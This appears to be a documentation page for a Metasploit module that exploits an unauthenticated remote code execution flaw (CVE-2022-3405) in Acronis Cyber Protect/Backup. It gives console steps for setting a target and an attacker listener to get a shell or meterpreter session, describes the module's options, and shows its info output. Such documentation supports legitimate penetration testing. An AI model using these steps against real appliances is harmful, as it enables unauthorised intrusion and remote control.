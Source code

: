 You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `modules/exploits/multi/acronis_cyber_protect_unauth_rce_cve_2022_3405`
- [ ] `set rhosts <ip-target>`
- [ ] `set lhost <attacker-ip>`
- [ ] `exploit`
- [ ] you should get a `shell` or `meterpreter` session depending on your settings.

## Options
These three options below are needed to target an specific endpoint registered on the Acronis Protect/Backup appliance.
This information can be collected using the recon module `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`.
This information is not mandatory for the module to run successfully.
You can also run this module standalone and it will try to exploit the first online endpoint matching your target
and payload settings configured at the module.
### HOSTID
HostId value collected from the recon module `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`.
### KEY
Key value collected from the recon module `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`.
### PARENTID
ParentId value collected from the recon module `auxiliary/gather/acronis_cyber_protect_machine_info_disclosure`.

## Scenarios
```msf
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > info

       Name: Acronis Cyber Protect/Backup remote code execution
     Module: exploit/multi/acronis_cyber_protect_unauth_rce_cve_2022_3405
   Platform: Unix, Linux, Windows
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2022-11-08

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Sandro Tolksdorf of usd AG.

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix/Linux Command
```